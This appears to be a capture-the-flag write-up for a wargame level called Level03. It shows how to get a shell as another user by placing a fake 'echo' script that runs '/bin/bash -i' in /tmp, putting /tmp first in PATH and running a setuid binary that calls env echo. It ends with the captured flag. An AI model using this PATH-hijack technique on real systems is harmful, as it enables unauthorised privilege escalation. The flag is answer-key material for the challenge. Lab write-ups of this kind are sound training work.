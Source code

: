 ## Level03

ls found a suid file 

when we execute the file output => exploit me

Using strings on file get us some informations
-strings gives us that the suid calls /usr/bin/env echo Exploit me
-so we can create a new echo in /tmp and change the path to begin with /tmp => export path=“/tmp:$PATH”
-created file in tmp should be like: 
```	
	#!/bin/bash
	
	/bin/bash -i
```
-chmod +x /tmp/echo
-run ./level03 and boom we are flag03
-launched get flag => qi0maab88jeaj46qoumi7maus
